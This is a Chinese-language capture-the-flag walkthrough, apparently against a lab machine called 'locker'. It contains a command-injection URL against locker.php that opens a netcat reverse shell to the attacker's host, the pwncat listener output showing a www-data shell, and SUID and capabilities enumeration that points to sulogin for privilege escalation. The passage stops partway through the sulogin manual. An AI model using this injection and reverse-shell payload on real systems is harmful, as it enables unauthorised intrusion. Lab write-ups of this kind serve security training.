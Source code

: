 尝试直接反弹 shell

```plaintext
http://192.168.56.111/locker.php?image=;nc%20192.168.56.102%209999%20-e%20/bin/bash;
```

成功得到 shell

```plaintext
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[18:12:43] Welcome to pwncat 🐈!                                                                                                                                                                                            __main__.py:164
[18:13:14] received connection from 192.168.56.111:60486                                                                                                                                                                         bind.py:84
[18:13:15] 192.168.56.111:60486: registered new host w/ db                                                                                                                                                                   manager.py:957
(local) pwncat$ back
(remote) www-data@locker:/var/www/html$ whoami
www-data
```

## 提权探测

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/sulogin
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

可以发现 `/usr/sbin/sulogin` 可能存在利用点

## 利用 `sulogin`

查看 `sulogin` 的手册

```plaintext
SULOGIN(8)                                                                                              System Administration                                                                                              SULOGIN(8)

NAME
       sulogin - single-user login

SYNOPSIS
       sulogin [options] [tty]

DESCRIPTION
       sulogin is invoked by init when the system goes into single-user mode.

       The user is prompted:

```